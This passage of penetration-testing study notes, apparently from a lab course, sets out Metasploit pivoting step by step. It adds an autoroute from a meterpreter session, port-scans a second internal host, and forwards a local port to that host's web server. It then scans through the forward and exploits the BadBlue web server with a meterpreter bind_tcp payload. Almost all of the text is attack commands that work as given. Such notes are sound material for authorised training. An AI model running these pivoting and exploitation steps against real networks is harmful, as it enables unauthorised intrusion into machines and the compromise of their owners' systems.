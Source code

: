 	meterpreter> ipconfig
	meterpreter> run autoroute -s 10.3.28.0/20 # subnet info from ipconfig
	```
- Run a scan against the other machine with the portscan module
	```
	search portscan
	use auxiliary/scanner/portscan/tcp
	set rhosts 10.3.24.202
	set ports 1-100
	run
	```
- Now you know which ports are open on the other target machine. So, the next task is to scan them. For this you create a port forwarding on the machine to which you have access in such a way that the traffic is forwarded from a port on attackers machine which is sent via this machine to the other target machine
	```
	sessions 1
	meterpreter> portfwd add -l 1234 -p 80 -r 10.3.24.202 # 1234 on attackers machine and 80 on the 24.202 machine
	```
- Run an nmap scan against your local port as it gets sent to the other machine
	```
	db_nmap -sV -p1234 localhost
	```
- Exploit it. Set the actual target IP as autoroute will handle that and make sure to change the payload to `bind_tcp` because you can't get a reverse tcp on your local machine in this case as there is no direct connectivity
	```
	use exploit/windows/http/badblue_passthru
	set rhosts 10.3.24.202
	set lport 4433
	set payload windows/meterpreter/bind_tcp
	run
```